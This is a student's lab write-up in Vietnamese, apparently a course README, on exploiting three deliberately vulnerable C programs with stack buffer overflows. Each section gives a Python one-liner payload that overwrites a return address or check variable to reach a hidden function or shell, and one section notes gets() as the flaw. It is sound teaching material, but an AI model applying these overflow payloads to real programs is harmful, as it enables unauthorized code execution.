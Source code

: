 # LAB 1

## File bof1.c

**Chạy docker**
>docker run -it --privileged -v D:\StudyHK1_2024\InformationSecurity\SecLabs:/home/seed/seclabs img4lab

**Lấy địa chỉ hàm secretFunc()**
![alt text](./image/image.png)
**Stack frame**
![alt text](./image/image-1.png)


=> Sẽ bị buffer-overflow qua byte thứ 205

**Chạy chương trình**

 > echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out

Tận dụng câu lệnh trên để tự động nhập 204 byte là chữ a sau đó chèn địa chỉ của hàm secretFunc vào
![alt text](./image/image-2.png)

=> Xâm nhập thành công

>Để tránh xâm nhập trong trường hợp này mình Replace gets() bằng fget() để lấy đúng giới hạn của mảng a.


## File bof2.c

**Phân tích đề**

>Trường hợp này mảng buf[] có 40 phần tử nhưng lệnh fget() đọc đến 44 phần tử(fget(buf,45,stdin) phần tử cuối để dành cho \0 là kí tự kết thúc chuỗi)

 => chúng ta dựa vào 4 phần tử cuối để thay đổi check

**Stackframe**

![alt text](./image/image-3.png)

**Run**

![alt text](./image/image-5.png)

>echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.out
![alt text](./image/image-6.png)

=> Xâm nhập thành công


## File bof3.c

**Phân tích**

>Trường hợp này mảng buf[] có 128 phần tử nhưng lệnh fget() đọc đến 133 phần tử.

 => chúng ta dựa vào 4 phần tử để thay đôi địa chỉ hàm sup thành địa chỉ hàm shell

**Stack frame**

![alt text](./image/image-7.png)
**Lấy địa chỉ hàm shell**

![alt text](./image/image-8.png)

**Run**

>echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out
![alt text](./image/image-9.png)

=> Seccessful
